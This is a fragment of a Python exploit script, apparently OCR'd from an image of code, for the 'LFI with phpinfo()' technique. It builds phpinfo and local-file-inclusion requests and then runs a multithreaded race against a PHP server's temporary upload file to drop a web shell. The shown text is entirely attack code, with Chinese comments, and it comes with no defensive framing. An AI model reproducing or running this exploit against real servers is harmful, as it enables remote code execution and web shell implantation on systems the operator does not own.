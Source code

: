 ```python

    print('LFI With PHPInfo()')
    # 一 生成phpinfo请求内容, 标志内容, lfi请求内容
    phpinfo_request, tag, lfi_request = setup(
        host=host, port=port, phpinfo_path=phpinfo_path, lfi_path=lfi_path,
        lfi_param=lfi_param, shell_code=shell_code, shell_path=shell_path)

    # 二 获取[tmp_name]在phpinfo中的偏移位
    offset = get_offset(host, port, phpinfo_request)

    sys.stdout.flush()
    thread_event = threading.Event()
    thread_lock = threading.Lock()
    print('创建线程池 {}...'.format(pool_size))
    sys.stdout.flush()
    thread_pool = []
    for i in range(0, pool_size):
        # 三 多线程执行phpinfo_lfi
        thread_pool.append(ThreadWorker(thread_event, thread_lock, max_attempts,
                                        host, port, phpinfo_request, offset,
                                        lfi_request, tag,
                                        shell_code, shell_path,
                                        lfi_path, lfi_param
                                        ))
    for t in thread_pool:
        t.start()
    try:
        while not thread_event.wait(1):
            if thread_event.is_set():
                break
            with thread_lock:
                sys.stdout.write('\r{} / {}'.format(attempts_counter, max_attempts))
                sys.stdout.flush()
                if attempts_counter >= max_attempts:
                    # 尝试次数大于最大尝试次数则退出
                    break
        if thread_event.is_set():
            print('''success !''')
        else:
            print('LJBD!')
    except KeyboardInterrupt:
        print('\n正在停止所有线程...')
        thread_event.set()
    for t in thread_pool:
        t.join()


if __name__ == "__main__":
    main()
```